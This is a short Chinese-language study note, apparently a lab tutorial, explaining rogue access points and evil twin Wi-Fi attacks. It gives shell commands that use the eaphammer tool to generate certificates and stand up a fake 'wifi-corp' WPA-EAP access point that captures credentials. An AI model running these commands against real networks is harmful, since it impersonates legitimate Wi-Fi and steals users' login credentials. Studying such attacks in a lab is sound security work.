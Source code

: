 Rogue AP
===

# Rogue AP
```
Rogue AP，也就是流氓(未經授權)接入點，aka 偷裝的基地台
類似於Shadow IT，影響機密性(可竊聽)還有管理問題

與EvilTwin很類似，差別只在EvilTwin可以仿冒完整的SSID跟BSSID(MAC)
```

# Evil Twin
![](../_src/EvilTwin.png)

# 架設假AP(WiFi)
Reset Enviroment
```bash
./restartWiFi.sh

sudo systemctl start network-manager
sudo su 
cd /root/tools/eaphammer
# https://github.com/s0lst1c3/eaphammer
```
生成憑證
```bash
# 也就是網頁上的鎖頭
# 除了第一個要填US，其他可隨意填
python3 ./eaphammer --cert-wizard
```
生成假AP
```bash
# Fake wifi-corp with 換行符號
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced --essid-stripping '\r'

# 開啟GUI介面可以看到兩個幾乎一樣的wifi-corp AP
# Evil Twin會更暴力一點把你直接踢下線，去連偽造的信號強度更強的AP
```
